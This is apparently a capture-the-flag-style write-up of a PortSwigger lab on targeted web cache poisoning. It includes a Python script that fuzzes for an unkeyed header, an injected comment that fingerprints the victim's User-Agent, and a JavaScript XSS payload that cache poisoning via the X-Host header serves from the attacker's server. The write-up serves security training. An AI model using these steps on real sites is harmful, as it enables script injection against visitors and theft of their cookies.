 # Targeted web cache poisoning using an unknown header | Jan 23, 2023

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/web-cache-poisoning/exploiting-design-flaws/lab-web-cache-poisoning-targeted-using-an-unknown-header), you'll learn: Targeted web cache poisoning using an unknown header! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab is vulnerable to [web cache poisoning](https://portswigger.net/web-security/web-cache-poisoning). A victim user will view any comments that you post. To solve this lab, you need to poison the cache with a response that executes `alert(document.cookie)` in the visitor's browser. However, you also need to make sure that the response is served to the specific subset of users to which the intended victim belongs.

## Exploitation

**Home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Web-Cache-Poisoning/Cache-4/images/Pasted%20image%2020230123193253.png)

Burp Suite HTTP history:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Web-Cache-Poisoning/Cache-4/images/Pasted%20image%2020230123193349.png)

In here, we see that the web application is using caches to cache the web content.

Also, it has a HTTP header called `Vary`, and **it specifies the `User-Agent` header.**

The `Vary` header specifies a list of additional headers that should be treated as part of the cache key even if they are normally unkeyed. **It is commonly used to specify that the `User-Agent` header is keyed**, for example, so that if the mobile version of a website is cached, this won't be served to non-mobile users by mistake.

**Moreover, when we visit the website, it loaded a JavaScript from `/resources/js/tracking.js`:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Web-Cache-Poisoning/Cache-4/images/Pasted%20image%2020230123193552.png)

**View source page:**
```html
<script type="text/javascript" src="//0a5500e503331cbbc06b90ea002f001a.web-security-academy.net/resources/js/tracking.js"></script>
```

**Now, we can test is it accepting the `X-Forwarded-Host` HTTP header. If it does, then we can poison the cache, and load any JavaScript file from any website:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Web-Cache-Poisoning/Cache-4/images/Pasted%20image%2020230123194436.png)

Nope. It doesn't work.

**To find header that changes the loaded JavaScript file domain, I'll write a Python script:**
```py
#!/usr/bin/env python3

import requests
from threading import Thread
from time import sleep

class Requester:
    def __init__(self, url, wordlistPath):
        self.__url = url
        self.__wordlistPath = wordlistPath

    def readFileAndSendRequest(self):
        counter = 0
        with open(self.__wordlistPath, 'r') as file:
            for header in file:
                # Prevent our fuzzing is being cached.
                # Otherwise it won't find the valid HTTP header
                cacheBuster = f'?buster=buster{counter}'

                thread = Thread(target=self.sendRequest, args=(header.strip(), cacheBuster))
                thread.start()
                sleep(0.02)
                counter += 1

    def sendRequest(self, cleanHeader, cacheBuster):
        payload = {cleanHeader: 'web-cache-poisoning-header-fuzzing.com'}
        finalURL = self.__url + cacheBuster

        requestResult = requests.get(finalURL, headers=payload)
        print(f'[*] Trying HTTP header: {cleanHeader:40s}', end='\r')

        if 'web-cache-poisoning-header-fuzzing.com' in requestResult.text:
            print(f'[+] Found valid HTTP header: {cleanHeader}')

def main():
    url = 'https://0a5500e503331cbbc06b90ea002f001a.web-security-academy.net/'
    wordlistPath = '/usr/share/seclists/Discovery/Web-Content/BurpSuite-ParamMiner/lowercase-headers'

    requester = Requester(url, wordlistPath)
    requester.readFileAndSendRequest()

if __name__ == '__main__':
    main()
```

```shell
┌[root♥siunam]-(~/ctf/Portswigger-Labs/Web-Cache-Poisoning)-[2023.01.23|20:57:16(HKT)]
└> python3 fuzz_header.py
[+] Found valid HTTP header: X-Host
```

Found it! The `X-Host` header is valid!

**To confirm it, we can send the request again with the header:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Web-Cache-Poisoning/Cache-4/images/Pasted%20image%2020230123210009.png)

Nice!

Now, if we can control the JavaScript file domain, **we can poison the cache and load any JavaScript files from anywhere.**

But before we do that, let's find out victim's `User-Agent`!

**To do so, we can go to one of those posts in the home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Web-Cache-Poisoning/Cache-4/images/Pasted%20image%2020230123210202.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Web-Cache-Poisoning/Cache-4/images/Pasted%20image%2020230123210211.png)

As you can see, we can leave some comments and HTML is allowed.

**Let's create an `<img>` element that pointing to our exploit server. By doing that, we can finger print victim's `User-Agent` value:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Web-Cache-Poisoning/Cache-4/images/Pasted%20image%2020230123210343.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Web-Cache-Poisoning/Cache-4/images/Pasted%20image%2020230123210359.png)

**Exploit server access log:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Web-Cache-Poisoning/Cache-4/images/Pasted%20image%2020230123210421.png)

Found it!

- Victim `User-Agent`: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.74 Safari/537.36

Armed with above information, we can poison the web cache **with the victim's `User-Agent`** and our evil JavaScript file:

**Evil JavaScript file:**
```js
document.write('<img src=errorpls onerror=alert(document.cookie)>');
```

**Then host it on the exploit server:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Web-Cache-Poisoning/Cache-4/images/Pasted%20image%2020230123212203.png)

**Finally, poison the web cache:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Web-Cache-Poisoning/Cache-4/images/Pasted%20image%2020230123212241.png)

When the victim visit the website, it'll load our evil JavaScript file, which will then trigger an alert box.

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Web-Cache-Poisoning/Cache-4/images/Pasted%20image%2020230123212316.png)

# What we've learned:

1. Targeted web cache poisoning using an unknown header